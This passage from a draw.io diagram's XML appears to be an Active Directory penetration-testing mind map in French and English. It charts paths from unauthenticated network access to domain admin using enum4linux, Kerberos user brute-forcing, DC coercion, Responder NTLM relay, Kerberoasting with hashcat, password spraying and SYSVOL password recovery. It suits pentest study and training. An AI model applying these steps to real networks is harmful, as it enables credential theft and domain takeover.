        <mxCell id="br6T0zjGsd1OOn6515T5-11" value="&lt;div style=&quot;font-size: 13px;&quot;&gt;on récupère un ticket kerberos TGT&lt;/div&gt;&lt;div style=&quot;font-size: 13px;&quot;&gt;&lt;br style=&quot;font-size: 13px;&quot;&gt;&lt;/div&gt;&lt;div style=&quot;font-size: 13px;&quot;&gt;gettgtpkinit.py&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=1;fontSize=13;" parent="1" vertex="1">
          <mxGeometry x="750" y="990" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-12" value="&lt;div style=&quot;font-size: 13px;&quot;&gt;Récupération du NT hash&lt;/div&gt;&lt;div style=&quot;font-size: 13px;&quot;&gt;&lt;br style=&quot;font-size: 13px;&quot;&gt;&lt;/div&gt;&lt;div style=&quot;font-size: 13px;&quot;&gt;getnthash.py&lt;br style=&quot;font-size: 13px;&quot;&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=1;fontSize=13;" parent="1" vertex="1">
          <mxGeometry x="950" y="990" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-13" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF3333;fontSize=13;" parent="1" source="br6T0zjGsd1OOn6515T5-14" target="br6T0zjGsd1OOn6515T5-5" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="590" y="1100" as="targetPoint" />
            <Array as="points">
              <mxPoint x="476" y="1080" />
              <mxPoint x="150" y="1080" />
              <mxPoint x="150" y="1020" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-14" value="coercer.py" style="whiteSpace=wrap;html=1;rounded=1;fontSize=13;" parent="1" vertex="1">
          <mxGeometry x="416" y="1090" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-15" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#000000;fontSize=13;" parent="1" source="br6T0zjGsd1OOn6515T5-16" target="br6T0zjGsd1OOn6515T5-14" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-16" value="on force un DC à se connecter à nous" style="whiteSpace=wrap;html=1;rounded=1;fontSize=13;" parent="1" vertex="1">
          <mxGeometry x="230" y="1090" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="KTRm8kq6GDk7_ihK_bxa-11" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.25;entryDx=0;entryDy=0;fontSize=14;fontColor=#2a7bde;" parent="1" source="KTRm8kq6GDk7_ihK_bxa-1" target="1S_cvOo1YeR9LOM_VgR6-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="KTRm8kq6GDk7_ihK_bxa-1" value="&lt;h2 style=&quot;font-size: 14px;&quot; id=&quot;enumerate-dcs-anonymously---when-anonymous-sessions-are-not-allowed&quot;&gt;&lt;span style=&quot;font-weight: normal;&quot;&gt;null sessions (anonymous) are&amp;nbsp; allowed&lt;/span&gt;&lt;/h2&gt;&lt;div&gt;&lt;font color=&quot;#dc8add&quot;&gt;NULL sessions are&lt;span dir=&quot;ltr&quot; role=&quot;presentation&quot; style=&quot;left: 33.34%; top: 45.42%; font-size: calc(var(--scale-factor)*22.00px); font-family: sans-serif;&quot;&gt; &lt;/span&gt;&lt;span dir=&quot;ltr&quot; role=&quot;presentation&quot; style=&quot;left: 34.07%; top: 45.42%; font-size: calc(var(--scale-factor)*22.00px); font-family: sans-serif; transform: scaleX(0.919);&quot;&gt;unauthenticated&lt;/span&gt;&lt;span dir=&quot;ltr&quot; role=&quot;presentation&quot; style=&quot;left: 55.1%; top: 45.42%; font-size: calc(var(--scale-factor)*22.00px); font-family: sans-serif;&quot;&gt; &lt;/span&gt;SMB sessions which &lt;span dir=&quot;ltr&quot; role=&quot;presentation&quot; style=&quot;left: 6.07%; top: 33.15%; font-size: calc(var(--scale-factor)*26.00px); font-family: sans-serif; transform: scaleX(0.892);&quot;&gt;are used to call RPC operations&lt;/span&gt;&lt;br role=&quot;presentation&quot;&gt;&lt;span dir=&quot;ltr&quot; role=&quot;presentation&quot; style=&quot;left: 6.07%; top: 38.06%; font-size: calc(var(--scale-factor)*26.00px); font-family: sans-serif; transform: scaleX(0.863);&quot;&gt;on a remote system&lt;/span&gt;&lt;/font&gt;&lt;/div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;&lt;code&gt;&lt;pre&gt;&lt;code&gt;&lt;pre&gt;enum4linux 192.168.56.11&lt;/pre&gt;&lt;/code&gt;&lt;/pre&gt;&lt;/code&gt;&lt;/font&gt;" style="rounded=1;whiteSpace=wrap;html=1;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry x="444" y="172.5" width="280" height="110" as="geometry" />
        </mxCell>
        <mxCell id="KTRm8kq6GDk7_ihK_bxa-10" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontSize=14;fontColor=#2a7bde;" parent="1" source="KTRm8kq6GDk7_ihK_bxa-8" target="1S_cvOo1YeR9LOM_VgR6-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="KTRm8kq6GDk7_ihK_bxa-8" value="&lt;div style=&quot;font-size: 14px;&quot;&gt;Bruteforce users&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;&lt;code&gt;&lt;pre&gt;nmap -p 88 &lt;span class=&quot;nt&quot;&gt;--script&lt;/span&gt;&lt;span class=&quot;o&quot;&gt;=&lt;/span&gt;krb5-enum-users&lt;/pre&gt;&lt;/code&gt;&lt;/font&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;fontColor=#ffffff;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="210" y="300" width="270" height="77" as="geometry" />
        </mxCell>
        <mxCell id="X6wlxV_FrzrZ-9Moiesy-9" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FFFFFF;fontColor=#2a7bde;" parent="1" source="X6wlxV_FrzrZ-9Moiesy-8" target="KTRm8kq6GDk7_ihK_bxa-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="X6wlxV_FrzrZ-9Moiesy-8" value="list users" style="rounded=1;whiteSpace=wrap;html=1;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="210" y="197.5" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="X6wlxV_FrzrZ-9Moiesy-12" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0.75;entryY=1;entryDx=0;entryDy=0;strokeColor=#FFFFFF;fontColor=#2a7bde;" parent="1" source="X6wlxV_FrzrZ-9Moiesy-10" target="y5aqqQjo2jUjklV6V6uS-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="X6wlxV_FrzrZ-9Moiesy-10" value="&lt;div&gt;Check description for password&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;cme&lt;/font&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=1;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="1221" y="490" width="154" height="90" as="geometry" />
        </mxCell>
        <mxCell id="OzdCo0pd7L-W225KIUEy-4" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontColor=#2a7bde;" parent="1" source="OzdCo0pd7L-W225KIUEy-1" target="OzdCo0pd7L-W225KIUEy-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="OzdCo0pd7L-W225KIUEy-1" value="&lt;div&gt;Check where smb signing is not active to relay to them&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;cme&lt;/font&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;fontSize=14;rounded=1;fillColor=#d80073;fontColor=#ffffff;strokeColor=#A50040;" parent="1" vertex="1">
          <mxGeometry x="570" y="520" width="140" height="80" as="geometry" />
        </mxCell>
        <mxCell id="OzdCo0pd7L-W225KIUEy-3" value="&lt;div&gt;poison with responder and relay ntlm to the vulnerable machine&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;fontSize=14;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="850" y="515" width="170" height="90" as="geometry" />
        </mxCell>
        <mxCell id="eT468RpVeFGScJ7yV71r-1" value="Rogue DNS IPV6" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#d80073;fontColor=#ffffff;strokeColor=#A50040;" parent="1" vertex="1">
          <mxGeometry x="570" y="620" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="wKqIxz2qH3VzgjHIJMqc-4" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" parent="1" source="wKqIxz2qH3VzgjHIJMqc-1" target="q669wVBJVDhqwRxZ6Rot-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="wKqIxz2qH3VzgjHIJMqc-1" value="&lt;div&gt;coerce&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;coercer.py&lt;/font&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="210" y="680" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="2ArGYso1SfPXtdhOZaz5-5" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="2ArGYso1SfPXtdhOZaz5-4" target="OosuojFDGbZqmqcItjsv-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="2ArGYso1SfPXtdhOZaz5-4" value="On est sur le réseau sans creds" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#60a917;fontColor=#ffffff;strokeColor=#2D7600;" parent="1" vertex="1">
          <mxGeometry x="-400" y="251.25" width="160" height="82.5" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
  <diagram name="from creds" id="U4GICPjlUHhETOjYcaq2">
    <mxGraphModel dx="2842" dy="928" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="_CGyanOoc56hwBKu-glQ-5" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;fontSize=13;fontColor=#ffffff;" parent="1" source="5y5mrsRL2AuuEaPEtIoS-5" target="3LOWyAd33K374xAvLqeN-3" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="-340" y="450" />
              <mxPoint x="575" y="450" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="5y5mrsRL2AuuEaPEtIoS-5" value="&lt;div style=&quot;font-size: 13px;&quot;&gt;Enumération des shares authentifié&lt;/div&gt;&lt;div style=&quot;font-size: 13px;&quot;&gt;&lt;br&gt;&lt;/div&gt;&lt;div style=&quot;font-size: 13px;&quot;&gt;&lt;font style=&quot;font-size: 13px;&quot; color=&quot;#2a7bde&quot;&gt;smbmap&lt;/font&gt;&lt;/div&gt;&lt;div style=&quot;font-size: 13px;&quot;&gt;&lt;font style=&quot;font-size: 13px;&quot; color=&quot;#2a7bde&quot;&gt;cme smb&lt;/font&gt;&lt;br style=&quot;font-size: 13px;&quot;&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=1;fontSize=13;" parent="1" vertex="1">
          <mxGeometry x="-433" y="480" width="160" height="105" as="geometry" />
        </mxCell>
        <mxCell id="3LOWyAd33K374xAvLqeN-1" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontSize=13;fontColor=#ffbe6f;" parent="1" source="5y5mrsRL2AuuEaPEtIoS-7" target="5y5mrsRL2AuuEaPEtIoS-63" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="5y5mrsRL2AuuEaPEtIoS-7" value="Enumération AD&lt;br style=&quot;font-size: 13px;&quot;&gt;Bloodhound" style="whiteSpace=wrap;html=1;rounded=1;fontSize=13;" parent="1" vertex="1">
          <mxGeometry x="-413" y="700" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="5y5mrsRL2AuuEaPEtIoS-27" value="&lt;div&gt;Kerberoasting&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;GetUserSPNs.py&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;&lt;br&gt;&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;&lt;font color=&quot;#dc8add&quot;&gt;Get hash of all services accounts&lt;/font&gt;&lt;br&gt;&lt;/font&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=1;fontSize=13;" parent="1" vertex="1">
          <mxGeometry x="-433" y="790" width="170" height="100" as="geometry" />
        </mxCell>
        <mxCell id="3LOWyAd33K374xAvLqeN-2" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;fontSize=13;fontColor=#ffbe6f;strokeColor=#ff3333;strokeWidth=3;" parent="1" source="5y5mrsRL2AuuEaPEtIoS-63" target="orcKsDgMiDMdKtN4nEvD-2" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="-10" y="730" />
              <mxPoint x="-10" y="690" />
              <mxPoint x="985" y="690" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="5y5mrsRL2AuuEaPEtIoS-63" value="&lt;div&gt;shadow admin&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#dc8add&quot;&gt;users have too much permissions&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#dc8add&quot;&gt;Force ChangePassword&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#dc8add&quot;&gt;addMembers&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#dc8add&quot;&gt;genericWrite ...&lt;/font&gt;&lt;br&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;fontSize=13;" parent="1" vertex="1">
          <mxGeometry x="-250" y="680" width="210" height="100" as="geometry" />
        </mxCell>
        <mxCell id="o2TW2BTDyTJAUZRltqvO-1" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontSize=13;fontColor=#0000aa;" parent="1" source="orcKsDgMiDMdKtN4nEvD-1" target="5y5mrsRL2AuuEaPEtIoS-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="o2TW2BTDyTJAUZRltqvO-4" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontSize=13;fontColor=#2a7bde;" parent="1" source="orcKsDgMiDMdKtN4nEvD-1" target="5y5mrsRL2AuuEaPEtIoS-7" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Raiisw0ENelHZsQr2zNw-3" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.75;entryDx=0;entryDy=0;" parent="1" source="orcKsDgMiDMdKtN4nEvD-1" target="Q22axLkAHlMyWJWrrfxN-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="lmAUqHFNn__0l1cbM3OC-2" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="orcKsDgMiDMdKtN4nEvD-1" target="lmAUqHFNn__0l1cbM3OC-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="ezBXcHe37mE9WKMKeRkE-3" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="orcKsDgMiDMdKtN4nEvD-1" target="ezBXcHe37mE9WKMKeRkE-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="f-eIXB1MB5Z8f-WhWKSM-2" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="orcKsDgMiDMdKtN4nEvD-1" target="f-eIXB1MB5Z8f-WhWKSM-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="QNvsHd57DNMUPzB0j-Tn-2" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="orcKsDgMiDMdKtN4nEvD-1" target="QNvsHd57DNMUPzB0j-Tn-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="orcKsDgMiDMdKtN4nEvD-1" value="&lt;div style=&quot;font-size: 13px;&quot;&gt;Valid account on the domain&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;fontSize=13;fillColor=#60a917;strokeColor=#2D7600;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry x="-680" y="575" width="150" height="80" as="geometry" />
        </mxCell>
        <mxCell id="ezBXcHe37mE9WKMKeRkE-10" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.75;exitY=0;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#f0f0f0;strokeWidth=1;fontColor=#2a7bde;" parent="1" source="orcKsDgMiDMdKtN4nEvD-2" target="ezBXcHe37mE9WKMKeRkE-8" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="orcKsDgMiDMdKtN4nEvD-2" value="Domain Admin right" style="rounded=1;whiteSpace=wrap;html=1;fontSize=13;fillColor=#e51400;strokeColor=#B20000;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry x="910" y="562.5" width="150" height="80" as="geometry" />
        </mxCell>
        <mxCell id="0wkhETG9pB4gattKTZce-2" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontSize=13;fontColor=#ffbe6f;" parent="1" source="5y5mrsRL2AuuEaPEtIoS-27" target="0wkhETG9pB4gattKTZce-1" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="-70" y="840" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="D5l5UgMyAY0gp9WzSqFA-1" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#2D7600;fillColor=#60a917;strokeWidth=3;" parent="1" source="Iw_T4d_-wb4pz08Lo9XD-3" target="orcKsDgMiDMdKtN4nEvD-1" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="345" y="400" />
              <mxPoint x="-605" y="400" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="Iw_T4d_-wb4pz08Lo9XD-3" value="Got Another acount creds" style="rounded=1;whiteSpace=wrap;html=1;fontSize=13;fillColor=#e3c800;strokeColor=#B09500;fontColor=#000000;" parent="1" vertex="1">
          <mxGeometry x="270" y="562.5" width="150" height="80" as="geometry" />
        </mxCell>
        <mxCell id="0wkhETG9pB4gattKTZce-3" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;fontSize=13;fontColor=#ffbe6f;" parent="1" source="0wkhETG9pB4gattKTZce-1" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="339.308" y="650.0" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="0wkhETG9pB4gattKTZce-1" value="&lt;div&gt;Crack avec hashcat&lt;/div&gt;&lt;div&gt;hashcat -m 13100&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;fontSize=14;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="-50" y="805" width="130" height="70" as="geometry" />
        </mxCell>
        <mxCell id="ZDy4xXztmy_Uh2uV_-2A-4" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.75;exitY=0;exitDx=0;exitDy=0;entryX=0.25;entryY=1;entryDx=0;entryDy=0;" parent="1" source="3LOWyAd33K374xAvLqeN-3" target="ZDy4xXztmy_Uh2uV_-2A-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="3LOWyAd33K374xAvLqeN-3" value="Local Admin right" style="rounded=1;whiteSpace=wrap;html=1;fontSize=13;fillColor=#fa6800;strokeColor=#C73500;fontColor=#000000;" parent="1" vertex="1">
          <mxGeometry x="500" y="562.5" width="150" height="80" as="geometry" />
        </mxCell>
        <mxCell id="_CGyanOoc56hwBKu-glQ-15" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0.25;entryY=1;entryDx=0;entryDy=0;fontSize=13;fontColor=#ffffff;" parent="1" source="_CGyanOoc56hwBKu-glQ-7" target="3LOWyAd33K374xAvLqeN-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="_CGyanOoc56hwBKu-glQ-7" value="search password files" style="rounded=1;whiteSpace=wrap;html=1;fontSize=13;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry y="960" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="_CGyanOoc56hwBKu-glQ-14" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;fontSize=13;fontColor=#ffffff;" parent="1" source="_CGyanOoc56hwBKu-glQ-10" target="3LOWyAd33K374xAvLqeN-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="_CGyanOoc56hwBKu-glQ-10" value="winpease" style="rounded=1;whiteSpace=wrap;html=1;fontSize=13;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry y="1040" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="Raiisw0ENelHZsQr2zNw-4" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontColor=#2a7bde;" parent="1" source="Q22axLkAHlMyWJWrrfxN-1" target="Q22axLkAHlMyWJWrrfxN-4" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Q22axLkAHlMyWJWrrfxN-1" value="&lt;font color=&quot;#ffffff&quot;&gt;Group PolicyPreferences SYSVOL&lt;/font&gt;" style="rounded=1;whiteSpace=wrap;html=1;fontSize=13;fontColor=#dc8add;" parent="1" vertex="1">
          <mxGeometry x="-420" y="1150" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="Raiisw0ENelHZsQr2zNw-5" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0.75;entryY=1;entryDx=0;entryDy=0;fontColor=#2a7bde;strokeWidth=1;" parent="1" source="Q22axLkAHlMyWJWrrfxN-4" target="3LOWyAd33K374xAvLqeN-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Q22axLkAHlMyWJWrrfxN-4" value="&lt;div&gt;Find passwords in SYSVOL share&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;Get-GPPPassword.py&lt;/font&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;fontSize=13;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry x="-180" y="1135" width="160" height="90" as="geometry" />
        </mxCell>
        <mxCell id="Mgc068LGqz-ZIUhQZxpC-3" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="lmAUqHFNn__0l1cbM3OC-1" target="Mgc068LGqz-ZIUhQZxpC-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="lmAUqHFNn__0l1cbM3OC-1" value="list users" style="rounded=1;whiteSpace=wrap;html=1;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="-413" y="620" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="46VSiSrXyTr81zkC9bUa-2" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="Mgc068LGqz-ZIUhQZxpC-1" target="Mgc068LGqz-ZIUhQZxpC-4" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Shlw0z85vV4mLwR04esC-2" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="Mgc068LGqz-ZIUhQZxpC-1" target="Shlw0z85vV4mLwR04esC-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Mgc068LGqz-ZIUhQZxpC-1" value="Valid users found" style="whiteSpace=wrap;html=1;rounded=1;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="-240" y="567.5" width="140" height="70" as="geometry" />
        </mxCell>
        <mxCell id="46VSiSrXyTr81zkC9bUa-1" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.25;entryDx=0;entryDy=0;" parent="1" source="Mgc068LGqz-ZIUhQZxpC-4" target="Iw_T4d_-wb4pz08Lo9XD-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Mgc068LGqz-ZIUhQZxpC-4" value="password spray" style="whiteSpace=wrap;html=1;rounded=1;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="-34" y="470" width="140" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Shlw0z85vV4mLwR04esC-3" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.25;entryDx=0;entryDy=0;fontColor=#2a7bde;" parent="1" source="Shlw0z85vV4mLwR04esC-1" target="Iw_T4d_-wb4pz08Lo9XD-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Shlw0z85vV4mLwR04esC-1" value="&lt;div&gt;Check description for password&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;cme&lt;/font&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=1;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="-34" y="552.5" width="154" height="90" as="geometry" />
